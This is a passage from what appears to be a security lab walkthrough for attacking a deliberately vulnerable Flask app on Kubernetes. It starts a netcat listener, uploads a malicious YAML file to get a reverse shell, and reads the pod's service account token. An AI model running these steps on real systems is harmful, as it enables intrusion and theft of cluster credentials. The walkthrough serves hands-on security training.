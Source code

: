     * If you're not using tmux, switch to the other tab on the browser

* Step 15: Start the `netcat` listener on port `1337`

```commandline
nc -l 1337
```

* Step 16: Go to the right pane of the terminal by running `ctrl` + `b` and then `right arrow key` 

    * If you're not using tmux, switch to the other tab on the browser

* Step 17: Post the malicious `reverse_shell.yml` file

```commandline
http --form POST $NGFLASK/upload file@reverse_shell.yml
```

### *It should come back with a response similar to the one below*

```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 26
Content-Type: application/json
Date: Thu, 03 Jan 2019 14:38:49 GMT
Server: nginx/1.11.13

{
    "success": "stored"
}
```

### *On the tab running netcat, you should have gotten a netcat reverse TCP shell! The output on the tab running `netcat` will be similar to the one below.*

```
nc -l 1337
/bin/sh: can't access tty; job control turned off
/app #
```

### *Now you can interact with your target app and backend K8s cluster*

> **NOTE**: Do NOT use the `Command/Ctrl+C` key. You will lose access to the shell and will have to re-do `Step 19`

* Step 18: In the reverse shell, navigate within the pod to fetch `Service Account` token.


```commandline
cd /run/secrets/kubernetes.io/serviceaccount
```
```commandline
export TOKEN=$(cat token)
```
